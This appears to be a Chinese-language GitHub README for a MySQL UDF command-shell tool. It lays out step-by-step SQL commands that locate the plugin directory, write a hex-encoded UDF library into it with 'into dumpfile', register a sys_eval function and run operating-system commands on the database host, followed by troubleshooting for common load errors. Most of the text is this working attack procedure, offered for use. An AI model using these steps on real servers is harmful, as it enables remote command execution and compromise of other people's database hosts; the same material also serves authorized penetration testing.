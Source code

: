 # mysql_udf #

mysql udf eval/cmd shell

**只适用于MySQL > 5.1**

源码来自https://github.com/mysqludf/lib_mysqludf_sys

    一般过程
    
    >show variables like '%version%';       //查目标Mysql版本
    >show variables like '%plugin%';        //查目标plugin目录
    >select unhex(hex_udf) into dumpfile path/to/plugin/udf.dll;       //通过各种方法导入udf
    >create function sys_eval returns string soname 'udf.dll';         //创建函数
    >select sys_eval(cmd);                  //执行命令

**可能遇到的问题**

 * errno 2
        
        1. udf不存在(有可能被删)
       
 * errno 126
       
        1. 检查编译UDF用到的MySQL版本与目标MySQL版本是否对应
        2. 目标机器是否缺少各种包，如Microsoft Visual C++ redistrubutable (这条基本无解)

 * errno 193

        1. udf文件存在，但文件格式错误 (文件损坏)

